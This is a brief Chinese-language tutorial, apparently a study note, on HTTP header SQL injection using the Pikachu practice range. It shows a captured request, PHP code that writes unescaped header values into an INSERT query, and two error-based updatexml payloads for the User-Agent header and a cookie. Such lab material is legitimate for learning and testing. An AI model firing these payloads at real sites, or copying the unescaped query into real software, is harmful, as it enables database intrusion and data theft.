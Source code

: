 # http头注入

## 原理

http头注入指的是一些，http头的信息会存在sql语句查询，如果没有相关的防护，就可能存在sql注入漏洞

## 应用

以pikachu靶场为例，需要抓包改包

抓取的数据包

```
GET /pikachu/vul/sqli/sqli_header/sqli_header.php HTTP/1.1
Host: 192.168.31.26
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.31.26/pikachu/vul/sqli/sqli_header/sqli_header_login.php
Connection: close
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=9o724nt8u6ofokl5ie7nu6ljs2
Upgrade-Insecure-Requests: 1
```

源码

```
//直接获取前端过来的头信息,没人任何处理,留下安全隐患
$remoteipadd=$_SERVER['REMOTE_ADDR'];
$useragent=$_SERVER['HTTP_USER_AGENT'];
$httpaccept=$_SERVER['HTTP_ACCEPT'];
$remoteport=$_SERVER['REMOTE_PORT'];

//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
$query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remotep
ort')"；
```

可以看出后台使用insert()函数进行数据的插入，当然这是需要猜的，此处为了快些显示

```
payload:firefox' or updatexml(1,concat(0x7e,version()),0) or '
```

同时此处也存在cookie注入

```
payload:admin 'and updatexml(1,concat(0x7e,version()),0)#
```


